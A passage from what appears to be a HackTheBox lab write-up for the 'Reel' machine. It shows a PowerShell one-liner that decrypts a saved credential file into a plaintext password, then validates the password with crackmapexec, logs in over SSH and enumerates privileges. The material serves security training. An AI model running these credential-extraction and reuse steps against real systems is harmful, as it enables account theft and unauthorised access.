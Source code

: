 Finally, I could extract the credentials.

```powershell
$credential = import-clixml -path cred.xml;$credential.GetNetworkCredential().username;$credential.GetNetworkCredential().password
Tom
1ts-mag1c!!!
```

Let's test the #credentials:
- `tom:1ts-mag1c!!!`

```sh
# check if creds are valid
❯ cme wmi reel -u 'tom' -p '1ts-mag1c!!!'
# yep!

# can we use them to SSH in?
❯ ssh tom@reel
Warning: Permanently added 'reel' (ED25519) to the list of known hosts.
tom@reels password: 1ts-mag1c!!!

Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

tom@REEL C:\Users\tom>
```

Nice!

Basic enumeration:

```powershell
whoami /all
User Name SID
========= ==============================================
htb\tom   S-1-5-21-2648318136-3688571242-2924127574-1107

Group Name
==========================================
Everyone
BUILTIN\Print Operators
BUILTIN\Users
BUILTIN\Pre-Windows 2000 Compatible Access
NT AUTHORITY\NETWORK
NT AUTHORITY\Authenticated Users
NT AUTHORITY\This Organization
HTB\SharePoint_Admins
HTB\MegaBank_Users
HTB\DR_Site
HTB\HelpDesk_Admins
HTB\Restrictions
NT AUTHORITY\NTLM Authentication
Mandatory Label\High Mandatory Level

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```


[//]: # (INSERT PROOF TEMPLATE(S) HERE)